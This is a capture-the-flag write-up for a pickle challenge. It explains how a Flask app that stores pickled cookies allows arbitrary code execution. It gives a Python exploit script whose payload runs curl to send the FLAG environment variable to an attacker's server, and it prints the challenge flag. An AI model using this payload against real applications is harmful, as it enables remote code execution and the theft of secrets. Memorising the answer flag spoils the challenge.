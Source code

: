 #### Challenge:

My other pickle challenges seem to be giving you all a hard time, so here's a simpler one to get you warmed up.

[jar.py](./jar.py ":ignore"), [pickle.jpg](./pickle.jpg ":ignore"), [Dockerfile](./Dockerfile ":ignore")

---

#### Solution:

From the provided `Dockerfile` we see that the flag is saved in environment variable `FLAG`. The jar.py is `python-flask` web application save list of items in cookies using `python`'s `pickle` serialization format. The problem with pickle is that it can run arbitrary code. First I crafted a pickle to check if `os` python library can be used and then I exfiltrated the flag variable by sending `curl` request to my web server `X.X.X.X`. Note that these crafted pickles had to be set as the cookie value (hence the base64 encoding).

```python
import pickle
import base64
import time


# class ArbitraryCodeExecutor:
#     def __reduce__(self):
#         import os
#         return (os.system,("sleep 5",)) # payload to check if the pickle is run

### gANjcG9zaXgKc3lzdGVtCnEAWAcAAABzbGVlcCA1cQGFcQJScQMu

class ArbitraryCodeExecutor:
    def __reduce__(self):
        import os
        return (os.system,("curl -L http://X.X.X.X/`echo $FLAG`",)) # send actual payload

evil_data = pickle.dumps(ArbitraryCodeExecutor())

# the class is only used to create the pickle, it's
# not needed for the arbitrary code execution
del ArbitraryCodeExecutor

print(base64.b64encode(evil_data))

pickle.loads(evil_data)

print(base64.b64encode(evil_data))
```

---

<details><summary>FLAG:</summary>

```text
actf{you_got_yourself_out_of_a_pickle}
```

</details>
<br/>
